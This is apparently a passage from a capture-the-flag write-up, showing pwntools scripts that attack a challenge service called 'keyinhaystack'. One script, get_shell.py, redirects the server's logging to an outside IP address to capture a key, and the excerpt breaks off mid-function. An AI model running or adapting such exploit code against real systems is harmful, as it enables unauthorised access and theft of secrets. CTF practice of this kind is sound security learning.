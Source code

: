 ```python

def send_command(command):
    time.sleep(1)
    send_line(command, pad=10)

def send_line(msg, pad=None):
    if type(msg) == str:
        msg = msg.encode()
    if pad is not None:
        msg = msg.ljust(pad, b'\0')
    print("<<<", msg)
    conn.send(msg)

def recv_line():
    print(">>>", conn.recvline())

# get key
hook_log()

send_command("ADMIN")
send_line("BBBB") # wrong key

send_command("INSERT")
time.sleep(1)

conn.shutdown("send") # close stdin buffer on server
time.sleep(1)
conn.close()
```

`get_shell.py`:
```python
from pwn import *
import time

context.update(arch='amd64', os='linux')

DEBUG = True

def open_conn():
    if DEBUG:
        return process("./keyinhaystack")
    else:
        return remote("192.168.0.45", 5555)

conn = open_conn()

def hook_log():
    ip = b"127.0.0.1" if DEBUG else b"165.22.244.105"
    send_command("LOG")
    recv_line()
    send_line(len(ip).to_bytes(4, 'little'))
    send_line(ip)
    recv_line()
    send_line((8000).to_bytes(4, 'little'))

def send_command(command):
    time.sleep(1)
    send_line(command, pad=10)

def send_line(msg, pad=None):
    if type(msg) == str:
        msg = msg.encode()
    if pad is not None:
```
